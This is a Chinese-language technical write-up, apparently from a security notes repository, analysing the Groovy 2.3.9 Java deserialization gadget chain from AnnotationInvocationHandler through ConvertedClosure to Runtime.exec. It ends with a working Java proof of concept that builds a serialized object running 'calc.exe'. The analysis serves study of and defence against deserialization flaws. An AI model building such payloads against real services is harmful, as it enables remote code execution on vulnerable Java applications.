








- [Groovy Gadget](#groovy-gadget)
  - [依赖](#依赖)
  - [Groovy](#groovy)
    - [ConvertedClosure](#convertedclosure)
  - [GadgetChain](#gadgetchain)
  - [POC](#poc)

# Groovy Gadget
## 依赖
`org.codehaus.groovy:groovy:2.3.9`
## Groovy
### ConvertedClosure
在Groovy中存在一个ConvertedClosure代理类，其invoke方法继承于父类，如下  
  
其中会对不应该被代理的的对象和方法进行过滤，最后会返回子类自己实现的invokeCustom方法中。   
  
这里getDelegate()获取的就是ConvertedClosure构造方法的第一个参数对象，调用其call方法，其中`groovy/lang/Closure.java`的call方法如下。   

最终会进入到MetaClassImpl的invokeMethod方法中，其中会调用Groovy的DGM类中，DGM类是Groovy对平常反射调用的封装类。  
  
最后在dgm$748中通过 ProcessGroovyMethods.execute((String)var1);执行Runtime.exec()。  
  
  
## GadgetChain
还需要一个入口来调用invoke方法，而调用被代理对象的任意方法都会由代理类的invoke方法来调用目的方法，所以只需要找到一个readObject方法中可以触发可控对象的任意方法即可，常用的组合为AnnotationInvocationHandler+Map。
在`AnnotationInvocationHandler#readObject`中会循环调用AnnotationInvocationHandler构造方法第二个Map参数的entrySet方法。  
  
  
最终的GadgetChain則是
```
AnnotationInvocationHandler#readObject()
Map#entrySet()
ConvertedClosure#invoke()
dgm$748#doMethodInvoke()
ProcessGroovyMethods#execute()
Runtime.getRuntime()#exec()
```
## POC
```java
public class Groovy {
    public static void main(String[] args) throws Exception {
        Object object = getObject();
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(object);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }


    public static Object getObject() throws Exception {
        String command = "calc.exe";
        final ConvertedClosure closure = new ConvertedClosure(new MethodClosure(command, "execute"), "entrySet");
        final Class<?>[] interfaces = new Class[]{Map.class};
        final Map proxyMap = (Map) Proxy.newProxyInstance(Groovy.class.getClassLoader(), interfaces, closure);
        final Constructor<?> ctor  = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        final InvocationHandler handler = (InvocationHandler) ctor.newInstance(Override.class,proxyMap);
        return handler;
    }
}
```